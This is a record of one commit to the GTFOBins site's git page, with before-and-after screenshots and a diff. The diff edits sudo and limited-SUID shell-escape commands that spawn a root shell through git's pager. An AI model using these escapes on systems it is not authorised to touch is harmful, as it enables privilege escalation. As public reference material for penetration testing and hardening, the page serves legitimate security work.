

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1037 px from its top, so only the background shows below that.

Commit message:
Updating git sudo to not drop capabilities

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -8,9 +8,9 @@ functions:
         !/bin/sh
   sudo:
     - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
-    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply. Several capabilities might be dropped in the child process using this method.
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
       code: |
-        sudo git help config
+        sudo git --paginate help config
         !/bin/sh
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
```
